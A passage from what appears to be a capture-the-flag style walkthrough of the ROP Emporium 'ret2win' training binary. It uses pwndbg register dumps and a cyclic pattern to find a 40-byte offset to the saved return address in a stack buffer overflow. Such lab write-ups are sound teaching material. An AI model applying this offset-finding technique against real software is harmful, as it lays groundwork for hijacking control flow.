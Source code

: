 Let's run the executable again and provide this cyclic pattern as the input.

We can now look at the registers.

```
───────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────
*RAX  0xb
 RBX  0x0
*RCX  0x7ffff7ea2a37 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x1
*RDI  0x7ffff7fa9a70 (_IO_stdfile_1_lock) ◂— 0x0
*RSI  0x1
*R8   0xa
*R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64
*R10  0x7ffff7d945e8 ◂— 0xf001200001a64
*R11  0x246
*R12  0x7fffffffe018 —▸ 0x7fffffffe255 ◂— '/home/kunal/ropEmporium/ret2win/ret2win'
*R13  0x400697 (main) ◂— push rbp
 R14  0x0
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffdef8 ◂— 0x6161616161616166 ('faaaaaaa')
*RIP  0x400755 (pwnme+109) ◂— ret
```

The `rbp` register points to `0x6161616161616165` which is the little endian `eaaaaaaa` in ASCII.

Let's find the offset of this value in our cyclic pattern.

```
pwndbg> cyclic -l 0x6161616161616165
Finding cyclic pattern of 8 bytes: b'eaaaaaaa' (hex: 0x6561616161616161)
Found at offset 32
```

So the offset is 32 bytes.

Let's see how this looks on the stack.

```
+---------------------------+ 
|  61 61 61 61 61 61 61 61  | <====== buffer (32 bytes) <------ rsp
|  62 61 61 61 61 61 61 61  | 
|  63 61 61 61 61 61 61 61  |
|  64 61 61 61 61 61 61 61  |
+---------------------------+
|  65 61 61 61 61 61 61 61  | <====== stored rbp <------ rbp
+---------------------------+
|  66 61 61 61 61 61 61 61  | <====== return address
+---------------------------+
```

We can see that if we increment the `rbp` by 8, it will point to the saved return address.

Therefore the distance between the buffer and the saved return address is `offset+8` which is equal to 40.
